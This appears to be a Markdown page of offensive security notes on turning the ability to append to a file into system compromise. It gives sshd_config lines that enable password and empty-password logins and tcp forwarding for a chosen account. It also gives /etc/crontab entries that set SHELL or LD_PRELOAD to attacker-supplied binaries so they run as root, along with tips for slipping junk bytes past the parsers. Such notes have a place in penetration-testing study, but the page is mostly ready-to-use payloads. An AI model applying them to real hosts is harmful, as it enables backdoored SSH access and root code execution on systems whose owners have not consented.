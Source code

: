 # Append To Arbitrary File
* as root or user you can append data to a file and ...
	* fully control content
	* partially control content (eg. parts of a logfile)
	* none (empty file)

### sshd
Looking at a mostly-default sshd config file most things are commented out so anything you append will take precedence if there is not something already before it (TODO: add sources for order of parsing).  

#### Clean file ending
```
# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem	sftp	/usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#	X11Forwarding no
#	AllowTcpForwarding no
#	PermitTTY no
#	ForceCommand cvs server
```

#### Messy file ending (user specific and all users)
```
# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# newline spam allowed


# override default of no subsystems
Subsystem	sftp	/usr/lib/openssh/sftp-server

# We can literally just uncomment that example
# password authentication enabled for key only servers
Match User knownaccount
	X11Forwarding yes
	AllowTcpForwarding yes
	PermitTTY yes
	PasswordAuthentication yes
	PermitEmptyPasswords yes
# not all of these may apply
AllowTcpForwarding yes
PermitTTY yes
PasswordAuthentication yes # if this has been defined already it will not take effect
PermitEmptyPasswords yes
# random chars can be put in comments !@#$%^&*()_+qwe`',.k.'
Port 8080 # however some parameters by design can have multiple values such as port. 
Port=8080 # equal signs work
```

#### File that will error
```
# unrecgonized option without value
random
# the option is still unrecgonized
random=111
# these all cause sshd to terminate
```
### firefox
#### user.js
See the firefox prefs.js section in file-overwrite. The difference here is that changes can be made while the browser is open. 
### crontab
* requires `root` permissions
* file location `/etc/crontab`
* different cron variants exist https://pkgs.org/download/cron
* very strict syntax, no arbitrary text or bytes. Not even null-byte allowed
* comments start with `#`
* file has to end with a newline `\n`
* env variables assigned before cronjob line are set for the cronjob execution
	* use `SHELL` or `LD_PRELOAD` to execute a binary. File **must** be executable.

#### Clean File
* you can also set environment variable. But they have to be set before the cronjob
```
SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab
@hourly root   (date;id) >> /tmp/crontab
```

#### Messy File
* see [`env.c` parsing](https://github.com/systemd-cron/crontab/blob/master/env.c#L132). if this fails to find an env var, it expects a crontab entry line.

```
fghr56%$^R4265ytd=invalid env var is ignored. But name must not contain space before = sign 8&$%(*& r5sa78d56rA&Ir67^RT%*x

SHELL=/home/user/pwn
LD_PRELOAD=/home/user/lib.so
* * * * * root   (date;id) >> /tmp/crontab

# this is a comment <00><ff> arbitrary bytes can be here
     # spaces are also fine
```
